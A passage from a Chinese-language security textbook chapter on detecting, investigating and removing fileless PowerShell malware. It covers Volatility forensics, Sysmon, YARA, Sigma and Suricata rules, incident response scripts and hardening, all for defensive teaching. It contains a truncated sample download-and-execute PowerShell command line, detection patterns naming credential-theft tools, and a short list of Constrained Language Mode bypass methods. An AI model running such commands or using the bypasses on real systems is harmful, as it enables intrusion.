vol.py -f memory.dmp windows.pslist | grep -i powershell
# 输出示例：
# PID    PPID   ImageFileName  Offset(V)          CreateTime
# 3848   756    powershell.exe 0xfa8004123080     2024-11-08 02:14:33
# 4212   3848   powershell.exe 0xfa8004567080     2024-11-08 02:14:35

# 2. 进程树分析 - 还原父子进程关系
vol.py -f memory.dmp windows.pstree | grep -B5 -A10 powershell
# 异常特征：
# WINWORD.EXE (PID:2144) → cmd.exe (PID:3560) → powershell.exe (PID:3848)
# Word文档启动了cmd再启动PowerShell，这是典型的宏攻击行为

# 3. 命令行参数提取 - 获取PowerShell实际执行的命令
vol.py -f memory.dmp windows.cmdline | grep -A2 -i powershell
# 输出示例：
# powershell.exe -NoProfile -NonInteractive -WindowStyle Hidden 
#   -ExecutionPolicy Bypass -Command "IEX(New-Object Net.WebClient)..."
```

**深度分析：检测进程注入与内存异常**

```bash
# 4. malfind：检测进程注入和可疑内存区域
vol.py -f memory.dmp windows.malfind
# 检测原理：扫描每个进程的VAD（Virtual Address Descriptor），
# 查找具有RWX（Read-Write-Execute）权限的内存段，
# 这些段通常表示被注入的恶意代码

# malfind输出的关键字段：
# - VAD地址：内存区域的虚拟地址
# - 标签：内存段的标识（如"Heap"、"Stack"）
# - 保护属性：RWX是最危险的组合
# - Hexdump：内存内容的十六进制转储
# - Disassembly：反汇编显示（MZ头表示PE注入）

# 5. VAD信息详细分析 - 查看PowerShell进程的内存映射
vol.py -f memory.dmp windows.vadinfo --pid 3848 | grep -E "Protection|CommitCharge|Tag"
# 异常特征：
# - Protection为PAGE_EXECUTE_READWRITE（RWX）的非标准段
# - CommitCharge异常大的内存分配
# - 无标签或标签异常的内存段

# 6. DLL列表分析 - 检查是否加载了异常DLL
vol.py -f memory.dmp windows.dlllist --pid 3848
# 关注：非标准路径的DLL、临时目录下的DLL、
# System32之外的.NET程序集
```

**Volatility插件的高级用法：**

```bash
# 7. 扫描内存中的.NET程序集（CLR堆分析）
vol.py -f memory.dmp windows.vadinfo --pid 3848 | grep -i "clr\|mscor\|dotnet"
# .NET反射加载的程序集会在CLR堆中留下痕迹

# 8. 提取内存中的字符串 - 搜索C2域名/IP
vol.py -f memory.dmp windows.strings --strings-file strings.txt | grep -iE "cdn-assets|\.com/api|powershell|IEX|DownloadString|FromBase64"

# 9. 网络连接分析 - 检查活跃的网络连接
vol.py -f memory.dmp windows.netstat | grep -E "ESTABLISHED|SYN"
# 关注：PowerShell进程（PID 3848）到外部IP的HTTPS(443)连接

# 10. 注册表分析 - 检查是否有注册表隐藏的持久化
vol.py -f memory.dmp windows.registry.hivelist
vol.py -f memory.dmp windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion\Run"

# 11. 提取特定进程的内存内容（用于离线分析）
vol.py -f memory.dmp windows.memmap --pid 3848 --dump
# 输出：pid.3848.dmp（进程的完整内存转储，可用十六进制编辑器或IDA分析）

# 12. 检查内核回调（高级rootkit检测）
vol.py -f memory.dmp windows.callbacks
# 异常回调可能表示内核级持久化或监控
```

**Volatility 3插件速查表：**

| 插件 | 用途 | 无文件恶意软件分析中的应用 |
|------|------|------------------------|
| `windows.pslist` | 进程列表 | 发现异常PowerShell子进程链 |
| `windows.pstree` | 进程树 | 还原 Word→cmd→PowerShell 执行链 |
| `windows.cmdline` | 命令行参数 | 获取Base64编码的恶意命令 |
| `windows.malfind` | 注入检测 | 发现反射DLL注入的RWX内存段 |
| `windows.vadinfo` | 内存区域详情 | 定位异常大的匿名内存分配 |
| `windows.dlllist` | DLL列表 | 发现非标准路径加载的.NET程序集 |
| `windows.netstat` | 网络连接 | 识别C2通信连接 |
| `windows.registry.hivelist` | 注册表hive | 检查注册表存储的持久化 |
| `windows.cmdscan` | 命令历史 | 提取cmd.exe的命令缓冲区 |
| `windows.envars` | 环境变量 | 检查环境变量中是否嵌入恶意路径 |
| `windows.memmap` | 内存映射导出 | 提取进程内存用于静态分析 |
| `windows.callbacks` | 内核回调 | 检测内核级hook和监控 |

### 24.6.5 综合检测策略

#### Sysmon配置：面向无文件攻击的检测规则

Sysmon（System Monitor）是微软Sysinternals套件中的系统监控工具，通过内核驱动记录进程创建、网络连接、注册表变更等系统活动。对于无文件攻击检测，Sysmon是不可或缺的基础设施。

**面向无文件攻击的Sysmon配置（精简版）：**

```xml
<!-- sysmon-config-fileless-detection.xml -->
<!-- 基于SwiftOnSecurity和Neo23x0规则集，针对无文件攻击优化 -->
<Sysmon schemaversion="4.90">
    <HashAlgorithms>SHA256,IMPHASH</HashAlgorithms>
    <EventFiltering>
        
        <!-- Event ID 1: Process Creation - 检测可疑进程创建 -->
        <ProcessCreate onmatch="include">
            <!-- PowerShell可疑参数组合 -->
            <CommandLine condition="contains">-EncodedCommand</CommandLine>
            <CommandLine condition="contains">-enc </CommandLine>
            <CommandLine condition="contains">-ExecutionPolicy Bypass</CommandLine>
            <CommandLine condition="contains">IEX</CommandLine>
            <CommandLine condition="contains">Invoke-Expression</CommandLine>
            <CommandLine condition="contains">DownloadString</CommandLine>
            <CommandLine condition="contains">Reflection.Assembly</CommandLine>
            <!-- LOLBin组合检测 -->
            <CommandLine condition="contains">mshta</CommandLine>
            <CommandLine condition="contains">certutil</CommandLine>
            <CommandLine condition="contains">bitsadmin</CommandLine>
            <ParentImage condition="contains">WINWORD.EXE</ParentImage>
            <ParentImage condition="contains">EXCEL.EXE</ParentImage>
        </ProcessCreate>

        <!-- Event ID 3: Network Connection - C2通信检测 -->
        <NetworkConnect onmatch="include">
            <Image condition="end with">powershell.exe</Image>
            <Image condition="end with">mshta.exe</Image>
            <Image condition="end with">wscript.exe</Image>
            <Image condition="end with">cscript.exe</Image>
        </NetworkConnect>

        <!-- Event ID 8: CreateRemoteThread - 进程注入检测 -->
        <CreateRemoteThread onmatch="include">
            <TargetImage condition="end with">lsass.exe</TargetImage>
            <TargetImage condition="end with">svchost.exe</TargetImage>
        </CreateRemoteThread>

        <!-- Event ID 10: Process Access - 内存访问监控 -->
        <ProcessAccess onmatch="include">
            <TargetImage condition="end with">lsass.exe</TargetImage>
        </ProcessAccess>

        <!-- Event ID 11: FileCreate - 可疑文件创建 -->
        <FileCreate onmatch="include">
            <TargetFilename condition="contains">\AppData\Local\Temp\</TargetFilename>
            <TargetFilename condition="end with">.ps1</TargetFilename>
            <TargetFilename condition="end with">.hta</TargetFilename>
        </FileCreate>

        <!-- Event ID 12/13/14: Registry - WMI持久化和注册表持久化 -->
        <RegistryEvent onmatch="include">
            <TargetObject condition="contains">Windows\CurrentVersion\Run</TargetObject>
            <TargetObject condition="contains">WBEM</TargetObject>
        </RegistryEvent>

    </EventFiltering>
</Sysmon>
```

**Sysmon关键事件ID与无文件攻击的关联：**

| Event ID | 事件类型 | 无文件攻击检测应用 |
|----------|---------|-------------------|
| 1 | Process Creation | Office进程创建PowerShell子进程 |
| 3 | Network Connect | PowerShell/wscript到外部IP的连接 |
| 7 | Image Load | .NET DLL在非标准进程中的加载 |
| 8 | CreateRemoteThread | 进程注入（反射DLL注入、APC注入） |
| 10 | Process Access | LSASS内存访问（凭据窃取） |
| 11 | FileCreate | PowerShell脚本文件落地（部分无文件攻击的变种） |
| 12 | RegistryKeyCreate | WMI仓库键值变更 |
| 13 | RegistryValueSet | 注册表存储编码载荷 |
| 22 | DNS Query | C2域名解析 |

```powershell
# Sysmon日志查询：检测Office进程启动的PowerShell
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID = 1
} | Where-Object {
    $_.Message -match 'ParentImage.*\\(WINWORD|EXCEL|POWERPNT|OUTLOOK)\.EXE' -and
    $_.Message -match 'Image.*\\(powershell|cmd|wscript|cscript)\.exe'
} | Select-Object TimeCreated, MachineName,
    @{N='Parent';E={if($_.Message -match 'ParentImage="([^"]+)"'){$Matches[1]}}},
    @{N='Child';E={if($_.Message -match 'Image="([^"]+)"'){$Matches[1]}}},
    @{N='CmdLine';E={if($_.Message -match 'CommandLine="([^"]+)"'){$Matches[1].Substring(0,[Math]::Min(200,$Matches[1].Length))}}}
    | Format-Table -AutoSize -Wrap
```

#### PowerShell深度检测

```powershell
# ===== 完整的PowerShell活动审计脚本 =====
# 适用于事后取证分析和日常监控

function Get-SuspiciousPowerShellActivity {
    [CmdletBinding()]
    param(
        [int]$Days = 7,
        [string]$OutputPath = ".\PS_Audit_Report_$(Get-Date -Format 'yyyyMMdd_HHmm').html"
    )
    
    $results = @()
    
    # 1. 脚本块日志分析（Event ID 4104）
    $suspiciousPatterns = @(
        'IEX|Invoke-Expression',
        'FromBase64|ToBase64|EncodedCommand',
        'DownloadString|DownloadFile|Invoke-WebRequest|Net\.WebClient',
        'Reflection\.Assembly|Assembly\.Load',
        'Add-Type.*-TypeDefinition',
        'New-Object.*COM.*ScriptControl',
        'Start-Process.*-WindowStyle Hidden',
        'Get-WmiObject.*CommandLineEventConsumer',
        'Set-WmiInstance.*EventFilter',
        'Invoke-WmiMethod|Invoke-CimMethod',
        'Convert.*SecureString.*PlainText',
        'Bypass.*ExecutionPolicy',
        'Mimikatz|Invoke-Mimikatz|sekurlsa',
        'Invoke-Command.*-ComputerName',
        'Enter-PSSession|New-PSSession'
    )
    
    Write-Host "[*] 分析PowerShell脚本块日志..." -ForegroundColor Cyan
    $scriptBlocks = Get-WinEvent -FilterHashtable @{
        LogName = 'Microsoft-Windows-PowerShell/Operational'
        ID = 4104
        StartTime = (Get-Date).AddDays(-$Days)
    } -ErrorAction SilentlyContinue
    
    foreach ($block in $scriptBlocks) {
        foreach ($pattern in $suspiciousPatterns) {
            if ($block.Message -match $pattern) {
                $results += [PSCustomObject]@{
                    Time = $block.TimeCreated
                    Computer = $block.MachineName
                    EventID = 4104
                    Severity = "HIGH"
                    MatchedPattern = $pattern
                    Content = $block.Message.Substring(0, [Math]::Min(300, $block.Message.Length))
                }
                break
            }
        }
    }
    
    # 2. 远程执行分析（Event ID 8193/8194 - PSRemoting会话）
    Write-Host "[*] 分析PowerShell远程会话..." -ForegroundColor Cyan
    $remoteSessions = Get-WinEvent -FilterHashtable @{
        LogName = 'Microsoft-Windows-WinRM/Operational'
        ID = 6, 91
        StartTime = (Get-Date).AddDays(-$Days)
    } -ErrorAction SilentlyContinue
    
    foreach ($session in $remoteSessions) {
        $results += [PSCustomObject]@{
            Time = $session.TimeCreated
            Computer = $session.MachineName
            EventID = $session.Id
            Severity = "MEDIUM"
            MatchedPattern = "WinRM Remote Session"
            Content = $session.Message.Substring(0, [Math]::Min(300, $session.Message.Length))
        }
    }
    
    # 3. 异常PowerShell进程检测
    Write-Host "[*] 检测异常PowerShell进程..." -ForegroundColor Cyan
    $psEvents = Get-WinEvent -FilterHashtable @{
        LogName = 'Microsoft-Windows-PowerShell/Operational'
        ID = 4103
        StartTime = (Get-Date).AddDays(-$Days)
    } -ErrorAction SilentlyContinue
    
    # 输出报告
    Write-Host "`n[*] 审计完成，共发现 $($results.Count) 条可疑活动" -ForegroundColor Yellow
    $results | Sort-Object Time -Descending | Format-Table Time, Severity, MatchedPattern, Content -AutoSize -Wrap
    
    return $results
}

# 执行审计
$auditResults = Get-SuspiciousPowerShellActivity -Days 14
```

#### YARA规则：检测无文件恶意软件活动痕迹

```yara
rule Fileless_Malware_PowerShell_Patterns {
    meta:
        description = "Detects common fileless malware patterns in PowerShell scripts"
        author = "Security Analysis Team"
        date = "2024-11-15"
        mitre_technique = "T1059.001"
        severity = "high"
        
    strings:
        // Base64解码与反射加载
        $reflection_load = "Reflection.Assembly" ascii wide nocase
        $base64_decode = "FromBase64String" ascii wide nocase
        $assembly_load = "Assembly]::Load" ascii wide nocase
        
        // 下载并执行
        $download_string = "DownloadString" ascii wide nocase
        $download_file = "DownloadFile" ascii wide nocase
        $invoke_web = "Invoke-WebRequest" ascii wide nocase
        $iex = "IEX" ascii wide
        $invoke_expression = "Invoke-Expression" ascii wide nocase
        
        // 绕过执行策略
        $bypass_policy = "-ExecutionPolicy Bypass" ascii wide nocase
        $hidden_window = "-WindowStyle Hidden" ascii wide nocase
        $no_profile = "-NoProfile" ascii wide nocase
        
        // WMI持久化
        $wmi_filter = "__EventFilter" ascii wide nocase
        $wmi_consumer = "__EventConsumer" ascii wide nocase
        $wmi_binding = "__FilterToConsumerBinding" ascii wide nocase
        $wmi_cmd_consumer = "CommandLineEventConsumer" ascii wide nocase
        
        // 常见工具名（Mimikatz等）
        $mimikatz = "mimikatz" ascii wide nocase
        $invoke_mimikatz = "Invoke-Mimikatz" ascii wide nocase
        $invoke_kerberoast = "Invoke-Kerberoast" ascii wide nocase
        
    condition:
        // 基础条件：至少包含一种反射加载 + 一种下载执行
        ($reflection_load and $base64_decode and $assembly_load) or
        // 或：下载执行 + 绕过执行策略
        (($download_string or $download_file or $invoke_web) and ($iex or $invoke_expression) and ($bypass_policy or $hidden_window)) or
        // 或：WMI持久化组件
        ($wmi_filter and $wmi_consumer and $wmi_binding) or
        // 或：凭证窃取工具
        ($mimikatz or $invoke_mimikatz or $invoke_kerberoast)
}
```

#### Sigma规则：检测WMI持久化

```yaml
title: Suspicious WMI Event Subscription Creation
id: f5a2b3c4-d5e6-7f8a-9b0c-1d2e3f4a5b6c
status: stable
description: Detects creation of WMI event subscription which can be used for persistence
tags:
    - attack.persistence
    - attack.t1546.003
logsource:
    product: windows
    service: wmi
detection:
    selection:
        EventID: 5861  # WMI Permanent Event Activity
    filter_legitimate:
        # 过滤已知的合法WMI订阅（根据环境白名单调整）
        Message|contains:
            - 'SCM Event Log Consumer'
            - 'BVTFilter'
            - 'Microsoft Security Client'
    condition: selection and not filter_legitimate
level: high
```

```yaml
title: PowerShell Encoded Command Execution
id: a1b2c3d4-e5f6-7890-abcd-ef1234567890
status: stable
description: Detects execution of PowerShell with encoded command parameter
tags:
    - attack.execution
    - attack.t1059.001
logsource:
    category: process_creation
    product: windows
detection:
    selection_encoded:
        CommandLine|contains|all:
            - 'powershell'
            - '-enc'
    selection_bypass:
        CommandLine|contains|all:
            - 'powershell'
            - 'bypass'
            - 'hidden'
    condition: selection_encoded or selection_bypass
level: high
```

#### Suricata网络检测规则

```suricata
# 检测PowerShell下载字符串模式（HTTP明文传输）
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"ET MALWARE PowerShell DownloadString Activity";
    flow:established,to_server;
    content:"GET"; http_method;
    content:".ps1"; http_uri;
    sid:3000001; rev:1;
    reference:url,attack.mitre.org/techniques/T1059;
    classtype:trojan-activity;
)

# 检测可疑的Base64编码POST数据（数据渗出）
alert http $HOME_NET any -> $EXTERNAL_NET any (
    msg:"ET MALWARE Suspicious Large Base64 POST Request (Possible Data Exfiltration)";
    flow:established,to_server;
    content:"POST"; http_method;
    content:"application/json"; http_header;
    dsize:>10000;
    sid:3000002; rev:1;
    classtype:trojan-activity;
)

# 检测HTA文件下载（mshta.exe攻击链）
alert http $EXTERNAL_NET any -> $HOME_NET any (
    msg:"ET MALWARE HTA File Download";
    flow:established,to_client;
    content:"application/hta"; http_header;
    sid:3000003; rev:1;
    classtype:trojan-activity;
)
```

### 24.6.6 应急响应与清除流程

#### 第一阶段：紧急隔离（0-2小时）

```powershell
# 1. 立即隔离受感染主机（保持网络连接用于远程取证）
# 使用Windows防火墙阻断除管理通道外的所有通信
New-NetFirewallRule -DisplayName "FORENSICS_ISOLATION" `
    -Direction Outbound `
    -Action Block `
    -RemoteAddress "0.0.0.0/0" `
    -ExceptRemoteAddress "10.0.0.50"  # 仅允许取证服务器IP

# 2. 收集实时内存快照（关键！无文件恶意软件重启后消失）
# 使用WinPmem获取内存镜像
Start-Process -FilePath ".\winpmem_mini_x64.exe" -ArgumentList "memory_$(hostname)_$(Get-Date -Format 'yyyyMMdd_HHmm').raw" -Wait

# 3. 保存当前进程快照
Get-Process | Export-Csv -Path ".\evidence\processes_$(hostname).csv" -NoTypeInformation
Get-Process | Select-Object Id, ProcessName, Path, StartTime, ParentId | 
    Format-Table -AutoSize | Out-File ".\evidence\process_tree_$(hostname).txt"

# 4. 保存WMI仓库快照
Copy-Item -Path "$env:SystemRoot\System32\wbem\Repository" `
    -Destination ".\evidence\wmi_repository_$(hostname)" `
    -Recurse -Force
```

#### 第二阶段：证据收集（2-8小时）

```powershell
# 5. 导出所有PowerShell相关日志
$logsToExport = @(
    'Microsoft-Windows-PowerShell/Operational',
    'Windows PowerShell',
    'Microsoft-Windows-WinRM/Operational',
    'Microsoft-Windows-Sysmon/Operational'
)

foreach ($log in $logsToExport) {
    $logFileName = $log -replace '/', '_' -replace ' ', '_'
    wevtutil epl $log ".\evidence\${logFileName}_$(hostname).evtx" /ow:true
    Write-Host "[+] 导出日志: $log" -ForegroundColor Green
}

# 6. 导出安全日志（登录事件、权限提升等）
wevtutil epl Security ".\evidence\Security_$(hostname).evtx" /ow:true

# 7. 导出WMI仓库的当前订阅状态
Get-CimInstance -Namespace "root\subscription" -ClassName __EventFilter | 
    Export-Csv ".\evidence\wmi_filters_$(hostname).csv" -NoTypeInformation
Get-CimInstance -Namespace "root\subscription" -ClassName __EventConsumer | 
    Export-Csv ".\evidence\wmi_consumers_$(hostname).csv" -NoTypeInformation
Get-CimInstance -Namespace "root\subscription" -ClassName __FilterToConsumerBinding | 
    Export-Csv ".\evidence\wmi_bindings_$(hostname).csv" -NoTypeInformation

# 8. 收集网络连接快照
Get-NetTCPConnection | Export-Csv ".\evidence\network_connections_$(hostname).csv" -NoTypeInformation

# 9. 收集已安装软件和补丁信息（用于溯源漏洞利用）
Get-HotFix | Export-Csv ".\evidence\hotfixes_$(hostname).csv" -NoTypeInformation
Get-CimInstance Win32_Product | Select-Object Name, Version, InstallDate | 
    Export-Csv ".\evidence\software_$(hostname).csv" -NoTypeInformation
```

#### 第三阶段：清除与修复（8-24小时）

```powershell
# 9. 终止所有可疑PowerShell进程
Get-Process powershell -ErrorAction SilentlyContinue | 
    Where-Object { $_.StartTime -gt (Get-Date).AddDays(-14) } |
    Stop-Process -Force -Verbose

# 10. 清除所有WMI持久化（谨慎操作，先确认哪些是恶意的）
# 查看所有非系统WMI订阅
Get-CimInstance -Namespace "root\subscription" -ClassName __EventConsumer |
    Where-Object { $_.CimClass.CimClassName -eq "CommandLineEventConsumer" } |
    ForEach-Object {
        Write-Host "[!] 发现CommandLineEventConsumer: $($_.Name)" -ForegroundColor Yellow
        Write-Host "    命令: $($_.CommandLineTemplate)" -ForegroundColor Yellow
    }

# 11. 清除恶意WMI订阅（根据取证结果确认后执行）
# !! 以下命令会清除所有非Microsoft签名的WMI事件订阅 !!
Get-CimInstance -Namespace "root\subscription" -ClassName __FilterToConsumerBinding | Remove-CimInstance -Verbose
Get-CimInstance -Namespace "root\subscription" -ClassName __EventConsumer | 
    Where-Object { $_.Name -notmatch "Microsoft|SCM|BVT" } | Remove-CimInstance -Verbose
Get-CimInstance -Namespace "root\subscription" -ClassName __EventFilter | 
    Where-Object { $_.Name -notmatch "Microsoft|SCM|BVT" } | Remove-CimInstance -Verbose

# 12. 检查并清除其他持久化机制
# 检查计划任务持久化
Get-ScheduledTask | Where-Object {
    $_.State -ne "Disabled" -and
    ($_.Actions.Execute -match 'powershell|cmd|wscript|mshta')
} | Select-Object TaskName, TaskPath, State,
    @{N='Command';E={$_.Actions.Execute}},
    @{N='Args';E={$_.Actions.Arguments}} | Format-Table -AutoSize

# 检查COM对象劫持（注册表中的InprocServer32）
Get-ItemProperty -Path "HKCU:\SOFTWARE\Classes\CLSID\*\InprocServer32" -ErrorAction SilentlyContinue |
    Where-Object { $_.'(default)' -match '\\Temp\\|\\AppData\\Local\\' }

# 13. 重置所有可能被窃取的凭据
# 强制重置krbtgt账户密码（两次，间隔12小时以上，防止Golden Ticket）
# 这一步非常重要，但需要在业务低峰期操作
# net user krbtgt <new_complex_password> /domain
```

#### 第四阶段：加固与监控（24-72小时）

```powershell
# 14. 全面启用PowerShell日志
# 通过GPO或直接修改注册表启用脚本块日志
$regPath = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"
New-Item -Path $regPath -Force
Set-ItemProperty -Path $regPath -Name "EnableScriptBlockLogging" -Value 1
Set-ItemProperty -Path $regPath -Name "EnableScriptBlockInvocationLogging" -Value 1

# 15. 启用模块日志
$regPathModule = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging"
New-Item -Path $regPathModule -Force
Set-ItemProperty -Path $regPathModule -Name "EnableModuleLogging" -Value 1

# 16. 配置AMSI（反恶意软件扫描接口）以增强检测
# 确保AMSI未被绕过：检查关键DLL完整性
$amsiDlls = @(
    "$env:SystemRoot\System32\amsi.dll",
    "$env:SystemRoot\System32\wldp.dll"
)
foreach ($dll in $amsiDlls) {
    $hash = Get-FileHash $dll -Algorithm SHA256
    Write-Host "[*] $($hash.Path): $($hash.Hash)" -ForegroundColor Cyan
}

# 17. 启用PowerShell约束语言模式（通过注册表）
# 注意：这会影响管理员使用PowerShell的灵活性，需要权衡
$regPathCLM = "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell"
Set-ItemProperty -Path $regPathCLM -Name "EnableScripts" -Value 1
# 约束语言模式需要通过AppLocker/WDAC策略配置

# 18. 部署和配置Sysmon（如果尚未部署）
# 下载Sysmon
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile ".\Sysmon.zip"
Expand-Archive -Path ".\Sysmon.zip" -DestinationPath ".\Sysmon"
# 使用自定义配置安装
.\Sysmon\Sysmon64.exe -accepteula -i .\sysmon-config-fileless-detection.xml
Write-Host "[+] Sysmon已部署，使用无文件攻击检测配置" -ForegroundColor Green
```

### 24.6.7 MITRE ATT&CK映射

| 战术阶段 | 技术ID | 技术名称 | 本案例中的具体体现 |
|---------|--------|---------|------------------|
| 初始访问 | T1566.001 | 钓鱼附件 | 带恶意宏的Word文档伪装为发票 |
| 执行 | T1059.001 | PowerShell | 宏代码调用PowerShell下载远程脚本 |
| 执行 | T1204.002 | 用户执行恶意文件 | 用户打开文档并启用宏 |
| 持久化 | T1546.003 | WMI事件订阅 | 创建EventFilter+EventConsumer实现自启动 |
| 提权 | T1068 | 利用漏洞提权 | PrintNightmare变种漏洞提升至SYSTEM |
| 防御规避 | T1055 | 进程注入 | .NET反射加载在合法进程内存中执行 |
| 防御规避 | T1140 | 混淆文件或信息 | Base64编码混淆PowerShell命令 |
| 防御规避 | T1027 | 混淆文件或信息 | 多阶段加载器逐层解码 |
| 防御规避 | T1562.001 | 禁用/修改工具 | 尝试绕过AMSI扫描接口 |
| 凭据访问 | T1003 | OS凭据转储 | 内存中提取LSASS凭据 |
| 发现 | T1082 | 系统信息发现 | WMI查询系统信息 |
| 横向移动 | T1021.006 | WinRM远程执行 | PowerShell Remoting横向移动 |
| 收集 | T1560 | 归档收集数据 | 内存中GZip压缩窃取文件 |
| 渗出 | T1041 | 通过C2通道渗出 | HTTPS POST传输数据到C2服务器 |

### 24.6.8 常见误区与处理陷阱

#### 误区1：重启主机"解决问题"

**错误做法：** 发现可疑PowerShell活动后直接重启服务器，认为恶意软件已随内存清除。

**后果：** 重启确实会清除内存中的恶意代码，但WMI持久化机制会在系统启动后自动重新加载恶意载荷。更重要的是，重启会永久丢失内存镜像这一最关键的取证证据——无文件恶意软件的运行时代码、网络连接、解密后的配置信息全部存在于RAM中，重启即永久销毁。

**正确做法：** 先获取内存镜像（WinPmem/DumpIt），再检查WMI持久化，最后在取证完成后才考虑重启。

#### 误区2：只清理当前主机不溯源

**错误做法：** 发现一台主机上有WMI持久化，清除后认为已解决问题。

**后果：** 攻击者通常在入侵一台主机后，通过PowerShell Remoting在内网横向移动，在多台主机上建立相同的持久化机制。只清除一台主机等于给攻击者留下了多个后门。

**正确做法：** 以被感染主机为起点，全面排查所有具有相同WMI订阅名称、相同PowerShell命令模式的主机。利用SIEM/EDR平台进行全网关联搜索。

**全网排查方法：**

```powershell
# 全网WMI持久化排查脚本（部署到GPO或SCCM）
# 获取所有域内在线主机
$computers = Get-ADComputer -Filter {Enabled -eq $true} -Properties Name |
    Select-Object -ExpandProperty Name

$report = @()
foreach ($computer in $computers) {
    try {
        $filters = Get-CimInstance -Namespace "root\subscription" `
            -ClassName __EventFilter -ComputerName $computer `
            -ErrorAction Stop
        $consumers = Get-CimInstance -Namespace "root\subscription" `
            -ClassName __EventConsumer -ComputerName $computer `
            -ErrorAction Stop
        $bindings = Get-CimInstance -Namespace "root\subscription" `
            -ClassName __FilterToConsumerBinding -ComputerName $computer `
            -ErrorAction Stop
        
        if ($consumers.Count -gt 0) {
            foreach ($consumer in $consumers) {
                $report += [PSCustomObject]@{
                    Computer = $computer
                    ConsumerName = $consumer.Name
                    ConsumerType = $consumer.CimClass.CimClassName
                    Command = if ($consumer.CommandLineTemplate) { 
                        $consumer.CommandLineTemplate.Substring(0, [Math]::Min(200, $consumer.CommandLineTemplate.Length)) 
                    } else { "N/A" }
                    FilterCount = ($bindings | Where-Object { $_.Consumer -match $consumer.Name }).Count
                }
            }
        }
    } catch {
        Write-Host "[!] 无法连接: $computer" -ForegroundColor Red
    }
}

$report | Export-Csv ".\WMI_Audit_All_Hosts.csv" -NoTypeInformation
Write-Host "`n[*] 发现 $($report.Count) 个WMI事件订阅" -ForegroundColor Yellow
$report | Format-Table -AutoSize
```

#### 误区3：依赖杀毒软件告警作为"已清除"的依据

**错误做法：** 运行全盘杀毒扫描，报告显示"未发现威胁"，认定系统已安全。

**后果：** 传统杀毒软件基于文件签名检测，对无文件恶意软件的检测能力极弱。WMI仓库中的持久化配置、注册表中存储的编码载荷、内存中的反射加载程序集，这些都不在传统AV的扫描范围内。

**正确做法：** 使用专门的LOL技术检测工具（如Sysmon、EDR、WMI Explorer）进行专项排查，不能仅依赖AV扫描结果。

#### 误区4：只看PowerShell日志忽略WMI仓库完整性

**错误做法：** 分析了PowerShell脚本块日志后认为已掌握全部攻击活动。

**后果：** 攻击者可能通过WMI自身的脚本引擎（ActiveScriptEventConsumer，VBScript/JScript）执行恶意代码，这类活动不会出现在PowerShell日志中。此外，WMI仓库是二进制格式存储，简单的文本搜索无法覆盖所有持久化配置。

**正确做法：** 使用专门工具（如`PyWMIPersistenceFinder`、`WMI-Persistence` PowerShell模块）解析WMI仓库的二进制内容，确保不遗漏隐藏的持久化。

#### 误区5：忽略PowerShell约束语言模式的局限性

**错误做法：** 认为启用了PowerShell约束语言模式（Constrained Language Mode，CLM）就完全阻止了PowerShell攻击。

**后果：** CLM确实限制了PowerShell的功能，阻止了直接使用`Add-Type`编译C#代码等功能，但攻击者可以通过以下方式绕过：
- 使用.NET直接调用Win32 API（通过`[System.Runtime.InteropServices.Marshal]`）
- 使用PowerShell 2.0引擎（如果未卸载，不受CLM约束）
- 使用VBScript/JScript（绕过PowerShell引擎）
- 使用`InstallUtil.exe`等LOLBin执行.NET程序集

**正确做法：** CLM是纵深防御的一层，不能作为唯一的防线。应配合WDAC（Windows Defender Application Control）、AppLocker和EDR共同使用。

### 24.6.9 防御体系构建

#### 纵深防御架构



#### PowerShell约束语言模式部署指南

PowerShell约束语言模式（Constrained Language Mode，CLM）是限制PowerShell攻击面的有效措施。它阻止了以下高风险操作：
- 使用`Add-Type`编译C#代码
- 直接调用.NET类型（除白名单外）
- 使用COM对象
- 访问Windows API

**通过AppLocker部署CLM：**

```powershell
# 检查当前PowerShell语言模式
$ExecutionContext.SessionState.LanguageMode
# 输出：FullLanguage（未限制）或 ConstrainedLanguage（已限制）

# 通过AppLocker策略启用CLM
# AppLocker的DLL规则会自动触发PowerShell进入约束语言模式
# 创建一个基本的AppLocker规则：

# 1. 允许从Program Files和Windows目录执行
# 2. 阻止从用户可写目录（Temp、AppData等）执行
# 这会自动将PowerShell切换到约束语言模式

# 手动测试CLM效果（临时切换）
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"

# 验证CLM阻止高风险操作
try {
    Add-Type -TypeDefinition "public class Test { public string Value { get; set; } }"
    Write-Host "Add-Type 执行成功（CLM未生效）" -ForegroundColor Red
} catch {
    Write-Host "Add-Type 被CLM阻止（正常）" -ForegroundColor Green
}
```

**WDAC（Windows Defender Application Control）策略示例：**

```powershell
# 创建基础WDAC策略，仅允许签名和已知路径的应用
# 注意：WDAC策略需要在测试环境中充分验证后再部署到生产环境

# 1. 创建策略模板
New-CIPolicy -Level Publisher -FilePath ".\WDAC_Policy_Base.xml" -UserPEs

# 2. 添加PowerShell约束语言模式规则
# WDAC策略中包含的Script Enforcement规则会自动启用CLM

# 3. 转换为二进制策略
ConvertFrom-CIPolicy -XmlFilePath ".\WDAC_Policy_Base.xml" -BinaryFilePath ".\WDAC_Policy.bin"

# 4. 部署策略（测试模式，仅审计不阻止）
Copy-Item ".\WDAC_Policy.bin" "$env:SystemRoot\System32\CodeIntegrity\SIPolicy.p7b"

# 5. 重启后生效
# 使用Get-CimInstance Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard 验证状态
```

#### 关键加固措施清单

| 措施 | 实施难度 | 保护效果 | 具体操作 |
|------|---------|---------|---------|
| 启用PowerShell脚本块日志 | 低 | 高 | GPO: Administrative Templates → Windows Components → Windows PowerShell |
| 启用Sysmon并配置检测规则 | 中 | 高 | 部署Sysmon + SwiftOnSecurity/Neo23x0规则集 |
| PowerShell约束语言模式 | 中 | 高 | 通过AppLocker/WDAC限制，仅允许签名脚本 |
| 禁用不需要的LOLBin | 高 | 高 | AppLocker规则阻止mshta/wscript/cscript等 |
| WMI审计日志启用 | 中 | 中 | 启用Microsoft-Windows-WMI-Activity/Operational日志 |
| 阻止Office宏执行外部进程 | 低 | 高 | GPO: 阻止宏创建子进程（Attack Surface Reduction规则） |
| 部署EDR解决方案 | 高 | 高 | 实时内存行为检测，覆盖反射加载/进程注入 |
